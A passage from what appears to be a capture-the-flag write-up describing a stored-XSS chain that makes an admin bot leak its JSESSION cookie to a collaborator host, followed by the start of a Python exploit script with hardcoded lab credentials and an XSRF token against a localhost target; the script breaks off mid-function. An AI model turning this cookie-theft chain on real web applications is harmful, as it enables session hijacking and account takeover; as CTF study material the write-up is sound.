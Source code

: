 This would work if I manually visited the page but not when the bot did for some reason that I could not figure out.

After struggling with the whole chain for a bit i realized i just needed to get the admin `JSESSION` cookie. which I already had accomplished hours ago.

so the exploit remained the same but I did the last 2 parts manually:

* automated:
    
    * create XSS payload through the upload page
        
    * call the admin bot
        
* manually:
    
    * get session
        

![collaborator with admin session](https://cdn.hashnode.com/res/hashnode/image/upload/v1678983785565/565d4cdf-459a-4a94-b84c-10ddfe5d49ce.png)

* create repo
    
![admin create repo form](https://cdn.hashnode.com/res/hashnode/image/upload/v1678983882393/8dc93eec-26e8-4851-b619-f1c1876ecff0.png)
    
* get flag
    

![flag](https://cdn.hashnode.com/res/hashnode/image/upload/v1678984215192/5e2c0bf9-9e5e-414e-9f87-b60be80684b8.png)

final exploit:

```python
import requests
import subprocess
import base64

host = "localhost:8055"
username = "hxp"
password = "hxp"

with open("exploit.js", "r") as f:
    file = f.read()


headers = {
    "Authorization": f"Basic {base64.b64encode((f'{username}:{password}').encode()).decode('utf-8')}",
    "X-XSRF-TOKEN": "sWHpbHMVGUgrA36mnBa1oNs4Z5ceTqRDx9i0Syewr+Ox1WuPmor+thpwNKe9A/4CMHVsdslsRCbhdW+pq0Yvn9JG2OEFV4DDqyTr+7mJ4L6eLGQIOpGoonQl1Dl0yssLRQedjJh/XAwWKe6sk7Nu/rotn6hBBCeJ3gIrE4o5+tTQcw2Bfpzu/a+wr5xfb+cC9F+PesJbDmPlglFZivcMI+vEpZRpasZciJ/M8KD5fZZys5Vw9OnHik6ykGfxIXLhUiO5sKQ3HKjz56Qqq8s9LtKDWecEdWyOTkhZTCNiTk61s3XiqwxuiI9XmBob82VrqQKj8KxaFC3CkubWPwTq9Q==",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36",
    "Origin": f"http://{host}",
}


def login():
    data = {
        "username": "ctf",
        "password": "H4v3Fun",
    }

    response = requests.post(
        f"http://{host}/restServices/redbackServices/loginService/logIn",
        headers=headers,
        json=data,
```